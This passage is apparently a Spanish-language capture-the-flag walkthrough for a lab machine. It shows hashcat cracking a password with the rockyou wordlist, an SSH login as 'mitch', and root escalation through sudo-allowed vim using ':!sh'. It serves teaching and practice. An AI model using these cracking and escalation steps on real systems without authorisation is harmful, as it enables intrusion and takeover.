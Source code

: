 ```bash
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   188.0 kH/s (1.71ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 16384/14344385 (0.11%)
Rejected.........: 0/16384 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> cocoliso

Started: Sun Jun 18 14:59:55 2023
Stopped: Sun Jun 18 15:00:31 2023
```

Ya podemos las credenciales del usuario **mitch** y podemos acceder vía ssh:

```bash
❯ ssh mitch@10.10.169.138 -p 2222
mitch@10.10.169.138's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
$ whoami
mitch
$ 
```

En este punto ya podemos obtener la primera flag (user.txt). Ahora debemos encontrar una forma de escalar privilegios, por lo que vamos a enumerar un poco el sistema:

```bash
mitch@Machine:~$ id
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$
```

Vemos que podemos ejecutar el binario `/usr/bin/vim` como **root** sin proporcionar contraseña; por lo que ya sebemos que debemos utilizar [GTFobins](https://gtfobins.github.io/):

```bash
mitch@Machine:~$ sudo /usr/bin/vim
```

Al abrir el editor `vim` escribimos `:!sh` y con esto ya podemos ejecutar comandos como el usuario **root**:

```bash  
:!sh
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).